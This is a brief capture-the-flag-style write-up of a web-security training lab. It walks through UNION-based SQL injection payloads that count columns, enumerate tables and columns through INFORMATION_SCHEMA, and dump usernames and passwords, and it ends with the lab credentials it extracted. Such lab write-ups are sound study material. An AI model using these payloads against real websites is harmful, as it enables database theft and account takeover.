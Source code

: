 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

Target : You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

Analysis:
1- determine the number of columns
    - number of columns is 2 since `/filter?category=Gifts'+order+by+3+--` returns 500 error
2 - find a column u coulld use
    - the second column with is compatible with string values `Gifts'+UNION+SELECT+NULL,+'A'+--`
3- find intersting tables
    - `'+UNION+SELECT+NULL,table_name+from+INFORMATION_SCHEMA.TABLES++--` -> pg_user , users_uuzdph
4- find intersting columns within intersting tables
    - `Gifts'+UNION+SELECT+NULL,column_name+from+INFORMATION_SCHEMA.COLUMNS++--` -> passwd,username_phzayx
    - `'+UNION+SELECT+NULL,column_name+from+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name+='users_uuzdph'++--` ->  username_phzayx , email , password_vqobvy
5- extarct infos
    - `'+UNION+SELECT+NULL,CONCAT(username_phzayx,'~',email,'~',password_vqobvy)+from+users_uuzdph++--`

wiener~~ocvwmdexgjslulv731p6
administrator~~uywd9lgyq7232u142vrj
carlos~~fuo0lh9bkr4gvjzu0gqc
